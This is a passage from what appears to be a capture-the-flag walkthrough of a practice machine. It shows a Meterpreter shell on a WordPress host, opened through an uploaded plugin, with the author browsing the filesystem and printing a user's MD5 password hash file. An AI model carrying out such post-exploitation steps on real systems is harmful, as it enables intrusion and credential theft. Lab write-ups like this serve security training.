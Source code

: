Awesome! We got the shell up and running on the host! Let's snoop around to see what we can find!

```console
meterpreter > pwd
/opt/bitnami/apps/wordpress/htdocs/wp-content/plugins/OTZuwKynuy
meterpreter > cd /
meterpreter > dir
Listing: /
==========

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  bin
40755/rwxr-xr-x   4096     dir   2015-11-13 02:52:43 -0600  boot
40755/rwxr-xr-x   3820     dir   2016-09-30 15:14:56 -0500  dev
40755/rwxr-xr-x   4096     dir   2016-09-30 15:14:56 -0500  etc
40755/rwxr-xr-x   4096     dir   2015-11-13 00:25:35 -0600  home
100644/rw-r--r--  5582759  fil   2015-11-13 02:52:43 -0600  initrd.img
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  lib
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  lib64
40700/rwx------   16384    dir   2015-06-24 05:44:49 -0500  lost+found
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  media
40755/rwxr-xr-x   4096     dir   2015-11-13 02:52:20 -0600  mnt
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  opt
40555/r-xr-xr-x   0        dir   2016-09-30 20:15:00 -0500  proc
40700/rwx------   4096     dir   2015-11-13 17:50:07 -0600  root
40755/rwxr-xr-x   480      dir   2016-09-30 20:15:15 -0500  run
40755/rwxr-xr-x   4096     dir   2015-11-13 02:52:14 -0600  sbin
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  srv
40555/r-xr-xr-x   0        dir   2016-09-30 15:14:53 -0500  sys
41777/rwxrwxrwx   4096     dir   2016-09-30 23:26:01 -0500  tmp
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  usr
40755/rwxr-xr-x   4096     dir   2015-09-16 05:49:06 -0500  var
100600/rw-------  5821984  fil   2015-09-16 05:49:06 -0500  vmlinuz

meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2015-11-13 01:20:08 -0600  robot

meterpreter > cd robot
meterpreter > ls -la
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 01:28:21 -0600  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 01:28:21 -0600  password.raw-md5

meterpreter > cat key-2-of-3.txt
[-] core_channel_open: Operation failed: 1
meterpreter > cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

